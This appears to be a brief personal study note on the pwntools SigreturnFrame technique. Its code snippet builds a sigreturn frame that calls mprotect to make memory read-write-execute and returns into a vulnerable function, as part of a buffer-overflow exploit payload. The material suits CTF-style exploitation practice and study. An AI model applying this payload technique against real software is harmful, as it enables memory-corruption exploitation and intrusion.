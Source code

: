 # pwntools sigreturn
sigreturn syscall restores a frame of all registers
- Example: this sigreturn frame will jump right to a syscall to mprotect the executable code as r/w/x so we can use it as a stack and a buffer overflow spot
```
frame = SigreturnFrame()
frame.rip = DIRECT_SYSCALL
frame.rsp = OFFSET_VULN_FUNC_SYMTAB # set RSP as an offset into the symbol table pointing to the vuln function so we can ret to vuln right after
frame.rax = constants.linux.amd64.__NR_mprotect # syscall mprotect
frame.rdi = 0x401000
frame.rsi = 0x1000
frame.rdx = constants.linux.amd64.PROT_READ | constants.linux.amd64.PROT_WRITE | constants.linux.amd64.PROT_EXEC

payload += bytes(frame)
```
` zet/20221003150518/README.md `

# Related

- [20221007185940](/zet/20221007185940/README.md) unsorted nodes

Tags:

    
